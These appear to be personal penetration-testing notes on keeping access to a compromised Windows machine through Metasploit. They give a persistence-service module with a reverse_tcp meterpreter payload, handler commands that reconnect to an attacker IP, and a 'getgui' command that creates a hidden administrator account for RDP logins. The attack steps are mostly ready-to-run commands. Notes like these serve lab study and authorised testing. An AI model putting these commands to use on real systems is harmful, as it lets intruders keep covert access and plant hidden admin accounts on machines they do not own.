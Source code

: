 ![](</Images/Pasted image 20240106152027.png>)


## Persistence via Services

metasploit/meterpreter version. After getting meterpreter shell, background
 search platform:windows persistence. Below is best option. Needs admin access to run
```
exploit/windows/local/persitance_services
```

- set a service name if applicable
- session (running meterpreter session)\

By default will use:
>Payload: windows/meterpreter/reverse_tcp
>LHOST: Attack IP Address
>LPORT: 4444 <-change port

Then to regain access. Must match settings from original exploit
>msfconsole -q 
>use exploit/multi/handler
>set LHOST 10.10.1.2 
>set PAYLOAD windows/meterpreter/reverse_tcp 
>set  LPORT 4444 exploit <- update port

## Persistence via RDP

First gain admin access.
From meterpreter run `run getgui -e -u <new user> -p <password>`
> cheks RDP is enabled and will enable if not, create user, hide user, and add user to admin group and RDP group
>user xfreerdp to login